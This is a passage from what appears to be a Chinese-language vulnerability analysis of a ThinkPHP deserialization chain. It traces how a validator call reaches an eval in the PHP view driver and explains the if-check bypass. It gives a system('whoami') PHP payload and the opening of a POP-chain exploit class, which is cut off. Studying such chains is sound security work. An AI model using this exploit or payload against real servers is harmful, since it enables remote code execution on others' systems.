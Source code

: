 ```
                $result = $this->regex($value, $rule);
            }
    }

    return $result;
}
```

```
public function is($value, string $rule, array $data = []): bool
```

这里的`$value`是原本的`$domain`,`$rule`是`"getDomainBind"`

所以Switch选择语句进入default

这里`$this->type[$rule]`相当于`$this->type['getDomainBind']`,可以控制然后去调用任意类的任意方法,参数是之前的`$domain`

在vendor\topthink\framework\src\think\view\driver\Php.php下找到了应该display方法

```
public function display(string $content, array $data = []): void
{
    $this->content = $content;

    extract($data, EXTR_OVERWRITE);
    eval('?>' . $this->content);
}
```

直接执行了当前传进来的参数,那`$domain=<?php system('whoami');?>`就可以执行相应的命令

## 漏洞复现

需要注意的是build方法里面的几个if判断,利用可控的值去进入相应的if语句

要想不进入调用getName的那个if语句

`if ($url)`就要为假,那就让`$url`为空,让他为空要利用下面的代码

```
if (false === strpos($url, '://') && 0 !== strpos($url, '/')) {
    $info = parse_url($url);
    $url  = !empty($info['path']) ? $info['path'] : '';
```

传入一个`$url="a:"`利用这里把他替换为空

`$this->app` = `给个public的request属性的任意类`

```
<?php

namespace think {

    use think\route\Url;

    abstract class Model
    {
        private $lazySave;
        private $exists;
        protected $withEvent;
        protected $table;
        private $data;
        private $force;
        public function __construct()
        {
            $this->lazySave = true;
            $this->withEvent = false;
            $this->exists = true;
```